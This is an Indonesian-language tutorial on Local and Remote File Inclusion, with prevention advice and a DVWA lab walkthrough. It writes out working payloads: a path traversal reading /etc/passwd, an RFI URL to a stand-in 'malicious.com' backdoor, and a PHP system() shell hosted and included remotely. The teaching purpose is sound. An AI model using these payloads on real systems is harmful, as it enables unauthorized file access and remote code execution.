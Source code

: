 ```yaml
---
title: Memahami File Inclusion
prev: /docs/hacking/hacking_fundamentals/
---
```


## Apa itu File Inclusion?

File Inclusion adalah kerentanan yang terjadi ketika aplikasi web tidak memvalidasi input dengan benar yang digunakan untuk mengakses file di server. Kerentanan ini memungkinkan hacker mengakses file yang seharusnya tidak terdaftar pada aplikasi.

### Kategori File Inclusion

1. **Local File Inclusion (LFI)**

   - Hacker dapat membaca file yang tidak diinginkan dengan cara menyisipkan perintah inklusi file lokal pada input aplikasi web.
   - Terjadi pada aplikasi yang mengizinkan user mengunggah file tanpa validasi upload yang memadai.
   - Contoh: hacker menyisipkan path lokal seperti `../../etc/passwd` untuk membaca file konfigurasi sensitif.

2. **Remote File Inclusion (RFI)**
   - Hacker dapat menyisipkan file yang dihosting di luar sistem untuk diakses oleh aplikasi web.
   - Terjadi ketika aplikasi menerima input tanpa validasi yang memadai, memungkinkan file remote diakses dan dijalankan di server.
   - Contoh: hacker menyisipkan URL eksternal seperti `http://malicious.com/backdoor.php`.

### Dampak

- Membaca file sensitif seperti `passwd` pada sistem operasi.
- Menjalankan file berbahaya yang diunggah oleh hacker.
- Memberikan akses tak terbatas ke sistem file server.

### Pencegahan

- Lakukan sanitasi dan validasi data input dengan ketat.
- Hindari penggunaan fungsi yang rentan seperti `include`, `require`, `include_once`, dan `require_once` dengan input dinamis.
- Gunakan whitelist file yang diizinkan untuk diakses.
- Konfigurasikan server untuk membatasi akses file dan direktori tertentu.

## Demo File Inclusion di DVWA

### Persiapan

1. Pastikan level keamanan DVWA disetel ke **Low**.
2. Pergi ke menu **File Inclusion**.

### Eksperimen Local File Inclusion (LFI)

1. DVWA memiliki beberapa file seperti `file1.php`, `file2.php`, dan `file3.php`:
   - **file1.php**: Berisi Username dan IP.
   - **file2.php**: Berisi catatan dari aplikasi.
   - **file3.php**: Informasi tentang sistem (localhost).
2. Akses file `file1.php` melalui URL dan coba eksplorasi direktori root:

   ```
   localhost:4280/vulnerabilities/fi/?page=.../../../../../etc/passwd
   ```

3. Isi file `/etc/passwd` akan ditampilkan, menunjukkan bahwa server rentan terhadap LFI.

### Eksperimen Remote File Inclusion (RFI)

1. Gunakan URL berikut untuk mencoba menyisipkan file dari sumber eksternal:

   ```
   localhost:4280/vulnerabilities/fi/?page=https://google.com
   ```

   ![RFI 1](/images/RFI1.png)

2. Untuk simulasi RFI, buat file PHP berisi kode berikut, simpan sebagai `rfi.php`:

   ```php
   <?php system("ls"); ?>
   ```

3. Jalankan server HTTP lokal untuk menghosting file `rfi.php`. Misalnya, jika IP lokal adalah `192.168.8.120`:

   ```bash
   python3 -m http.server 8000
   ```

4. Gunakan URL berikut untuk menyisipkan file remote:

   ```
   localhost:4280/vulnerabilities/fi/?page=http://192.168.8.120:8000/rfi.php
   ```

5. Server akan menjalankan perintah `ls` dan menampilkan hasilnya.

   ![RFI 2](/images/RFI2.png)

### Catatan Tambahan

- Pastikan DVWA berjalan di lingkungan yang aman (sandbox) saat melakukan eksperimen ini.
- Jangan gunakan teknik ini di sistem produksi atau tanpa izin.

## Kesimpulan

Dengan memahami mekanisme LFI dan RFI, kita dapat mengenali potensi risiko keamanan yang dihadapi aplikasi web dan mengambil langkah-langkah mitigasi yang tepat untuk mencegah eksploitasi serupa.
